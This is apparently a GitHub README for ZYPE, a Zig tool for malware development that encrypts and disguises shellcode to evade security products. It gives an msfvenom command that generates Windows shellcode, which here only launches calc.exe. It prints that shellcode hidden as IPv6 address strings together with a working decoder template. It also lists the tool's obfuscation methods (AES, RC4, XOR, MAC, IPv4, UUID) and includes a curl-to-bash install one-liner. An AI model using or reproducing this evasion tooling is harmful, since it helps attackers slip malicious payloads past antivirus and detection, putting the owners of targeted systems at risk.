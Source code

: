 # ZYPE: Your Payload Encryptor

<p align="center">
  <img alt="GitHub License" src="https://img.shields.io/github/license/CX330Blake/zype">
  <img alt="GitHub top language" src="https://img.shields.io/github/languages/top/cx330blake/zype">
  <img alt="GitHub Downloads (all assets, all releases)" src="https://img.shields.io/github/downloads/cx330blake/zype/total">
  <img alt="GitHub repo size" src="https://img.shields.io/github/repo-size/cx330blake/zype">
  <img alt="X (formerly Twitter) Follow" src="https://img.shields.io/twitter/follow/CX330Blake">

</p>

<p align="center">
  <a href="#whats-zype">What's ZYPE?</a> •
  <a href="#showcase">Showcase</a> •
  <a href="#installation">Installation</a> •
  <a href="#usage">Usage</a> •
  <a href="#test">Test</a> •
  <a href="#contribution">Contribution</a> •
  <a href="#zig-malware-toolkit">Zig Malware Toolkit</a> •
  <a href="#star-history">Star History</a>
</p>

<p height="300" align="center">
  <img src="./assets/ZYPE.png">
</p>

## What's ZYPE?

ZYPE: Zig Yield Payload Encryptor - Transform your shellcode into undetectable, obfuscated payloads that bypass modern security solutions.

- ⚡ Lightning Fast: Written in Zig for optimal performance and memory safety
- 🎯 Multi-Method Obfuscation: Support for AES, RC4, XOR encryption plus MAC/IPv4/IPv6/UUID address obfuscation
- 🌐 Cross-Platform Compatible: Generated decoder templates work on Windows, Linux, and macOS without API dependencies
- 🛠️ Developer Friendly: Interactive mode for easy setup, plus command-line interface for automation
- 🔒 Advanced Evasion: Multiple encoding layers make static analysis nearly impossible
- 📦 Complete Solution: Generates both obfuscated payload data and ready-to-compile decoder templates
- 🚀 Zero Dependencies: Self-contained tool with no external requirements

## Showcase

In the following example, I will use MSFvenom to generate a Windows shellcode to execute calc.exe and use ZYPE to do the IPv6 obfuscation. Let's first generate the shellcode.

```bash
msfvenom -p windows/exec CMD=calc.exe -f raw -o shellcode.bin
```

After that, we use ZYPE to help use do the obfuscation.

```bash
zype -f shellcode.bin -m ipv6 > shellcode.zig
```

This will generate the encrypted/obfuscated shellcode and the function to decrypt/deobfuscate it in a Zig file. This is the output.

```zig
const std = @import("std");
const net = std.net;

const IPV6_ARRAY: [13][]const u8 = [_][]const u8{
    "fce8:8200:0000:6089:e531:c064:8b50:308b",
    "520c:8b52:148b:7228:0fb7:4a26:31ff:ac3c",
    "617c:022c:20c1:cf0d:01c7:e2f2:5257:8b52",
    "108b:4a3c:8b4c:1178:e348:01d1:518b:5920",
    "01d3:8b49:18e3:3a49:8b34:8b01:d631:ffac",
    "c1cf:0d01:c738:e075:f603:7df8:3b7d:2475",
    "e458:8b58:2401:d366:8b0c:4b8b:581c:01d3",
    "8b04:8b01:d089:4424:245b:5b61:595a:51ff",
    "e05f:5f5a:8b12:eb8d:5d6a:018d:85b2:0000",
    "0050:6831:8b6f:87ff:d5bb:f0b5:a256:68a6",
    "95bd:9dff:d53c:067c:0a80:fbe0:7505:bb47",
    "1372:6f6a:0053:ffd5:6361:6c63:2e65:7865",
    "0000:0000:0000:0000:0000:0000:0000:0000"
};
const NUMBER_OF_ELEMENTS: usize = 13;

fn ipv6Deobfuscation(ipv6_array: []const []const u8, allocator: std.mem.Allocator) ![]u8 {
    var buffer = try allocator.alloc(u8, ipv6_array.len * 16);
    var offset: usize = 0;

    for (ipv6_array) |ip| {
        const addr = net.Address.parseIp6(ip, 0) catch return error.InvalidIpFormat;
        const ip_bytes = @as([16]u8, @bitCast(addr.in6.sa.addr));
        @memcpy(buffer[offset..offset + 16], &ip_bytes);
        offset += 16;
    }

    return buffer;
}

pub fn main() !void {
    var gpa = std.heap.GeneralPurposeAllocator(.{}){};
    defer _ = gpa.deinit();
    const allocator = gpa.allocator();

    const shellcode = try ipv6Deobfuscation(&IPV6_ARRAY, allocator);
    defer allocator.free(shellcode);
    std.debug.print("Decrypted shellcode length: {}\n", .{shellcode.len});
    std.debug.print("Decrypted shellcode: {any}\n", .{shellcode});
}
```

## Installation

ZYPE is now currently support Linux only, but the Windows version will be released soon.

You can simply copy and paste the following one-liner to install ZYPE.

```bash
bash <(curl -sSL https://raw.githubusercontent.com/CX330Blake/zype/main/install.sh)
```

> [!WARNING]  
> Never execute any untrusted script on your machine. Read the script first.

On the other hand, you can clone this repo and use the following command to build your own ZYRA biary.

```bash
git clone https://github.com/CX330Blake/ZYPE
cd ZYPE
# You can change the build flag on your own
zig build --release=fast
```

## Usage

```
 ___  _   _ ___  ____
   /   \_/  |__] |___
  /__   |   |    |___

ZYPE shellcode encryptor v0.1.0
Copyright (C) 2025 @CX330Blake.
All rights reserved.

ZYPE v0.1.0 - Shellcode encryptor and obfuscator

Usage: zype [options]

Options:
  -h, --help              Show this help message
  -v, --version           Show version information
  -i, --interactive       Interactive mode (guided setup)
  -m, --method <type>     Encryption/obfuscation method
  -f, --file <path>       Input shellcode file path

Supported Methods:
  mac                     MAC address obfuscation
  ipv4                    IPv4 address obfuscation
  ipv6                    IPv6 address obfuscation
  uuid                    UUID obfuscation
  aes                     AES encryption (CTR mode)
  rc4                     RC4 encryption
  xor                     XOR encryption

Examples:
  zype -i                                         # Interactive mode
  zype -m aes -f shellcode.bin > shellcode.zig    # AES encrypt shellcode.bin
  zype -m mac -f shellcode.bin                    # MAC address obfuscation
  zype --method rc4 --file sc.bin                 # RC4 encryption

Notes:
  - Interactive mode provides guided setup for all options
  - Output includes both obfuscated data and decoder template
  - Generated code is cross-platform compatible (no Windows APIs)
```

## Test

You can run the following command in the **example** directory to test the ZYPE is working normally.

```bash
./show.sh
```

You should see no error and the shellcode is decrypted/deobfuscated.

## Contribution

This project is maintained by [@CX330Blake](https://github.com/CX330Blake/). PRs are welcome if you also want to contribute to this project.

## Zig Malware Toolkit

If you want to learn more about Zig for malware, here's some tools for malware development.

- [ZYPE](https://github.com/cx330blake/zype)
- [ZYRA](https://github.com/cx330blake/zyra)

## Star history

[![Star History Chart](https://api.star-history.com/svg?repos=CX330Blake/ZYPE&type=Date)](https://www.star-history.com/#CX330Blake/ZYPE&Date)
